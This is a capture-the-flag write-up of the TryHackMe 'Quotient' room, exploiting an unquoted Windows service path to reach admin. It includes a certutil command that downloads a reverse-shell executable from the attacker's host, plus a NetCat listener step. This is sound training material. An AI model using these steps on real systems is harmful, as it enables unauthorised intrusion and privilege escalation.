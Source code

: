 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

<p>
  <img height="auto" src="./_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

<p>
  <img height="auto" src="./_resources/658494285c75fb47f7e816ce2fc218a1.png">
</p>

It looks like we're not very special and only have general access.

<p>
  <img height="auto" src="./_resources/3dadeb6debd6380cdab64b97820bbbaa.png">
</p>

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

<p>
  <img height="auto" src="./_resources/a0b61d9dd05b25eb245f52e170b292a1.png">
</p>

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

<p>
  <img height="auto" src="./_resources/95562cfa26ee77ee2229ff38837c2efb.png">
</p>

Let's investigate.

<p>
  <img height="auto" src="./_resources/0ada677f68c1d969a7520527e7a983c4.png">
</p>

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

<p>
  <img height="auto" src="./_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png">
</p>

Now we need to start a web server on our Kali machine.

<p>
  <img height="auto" src="./_resources/7eed70e4cd3a5000fb4542483de44f67.png">
</p>

And we need to download the executable from our target machine.

<p>
  <img height="auto" src="./_resources/e2c62b94d766594d957550f4eabbe889.png">
</p>

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

<p>
  <img height="auto" src="./_resources/e57fff9a846ab29bc1461d3146275646.png">
</p>

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

<p>
  <img height="auto" src="./_resources/d65e82940e2f358055650fc96fb76da2.png">
</p>

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

<p>
  <img height="auto" src="./_resources/f314cea54ab81f3928c495244f3b2faa.png">
</p>
* * *
### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

<p>
  <img height="auto" src="./_resources/b9983bdb900bafc38d417afd67737caa.png">
</p>
* * *
### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.
